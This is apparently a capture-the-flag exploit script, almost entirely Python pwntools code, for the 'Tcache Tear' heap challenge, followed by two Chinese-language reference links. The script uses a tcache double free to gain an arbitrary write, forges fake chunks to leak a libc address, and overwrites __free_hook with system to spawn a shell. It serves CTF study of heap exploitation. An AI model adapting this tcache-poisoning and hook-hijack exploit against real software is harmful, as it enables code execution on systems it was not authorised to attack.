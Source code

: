```python
init = lambda name : sla("Name:",name)
malloc = lambda size,data : (sla("choice :","1"),sla("Size:", str(size)),sla("Data:",data))
free = lambda : sla("choice :","2")
info = lambda : sla("choice :","3")

def aaw(len,addr,data):
    malloc(len,"aaa")
    free()
    free()
    malloc(len,p64(addr))
    malloc(len,"aaa")
    malloc(len,data)
    
name_bss = 0x602060

init(p64(0)+p64(0x501))
aaw(0x50,name_bss+0x500,(p64(0)+p64(0x21)+p64(0)*2)*2)
aaw(0x60,name_bss+0x10,'a')
free()

info()
io.recvuntil("Name :"); io.recv(0x10)
libc_addr = u64(io.recv(8)) - 0x3ebca0
free_hook = libc_addr + libc.symbols['__free_hook']
system    = libc_addr + libc.symbols['system']

aaw(0x70,free_hook,p64(system))
malloc(0x80,"$0\x00")
free()

io.interactive()
```



参考：

- [和媳妇一起学Pwn 之 Tcache Tear](https://xuanxuanblingbling.github.io/ctf/pwn/2020/03/13/tcache/)
- [__free_hook 劫持原理](http://blog.eonew.cn/archives/521)

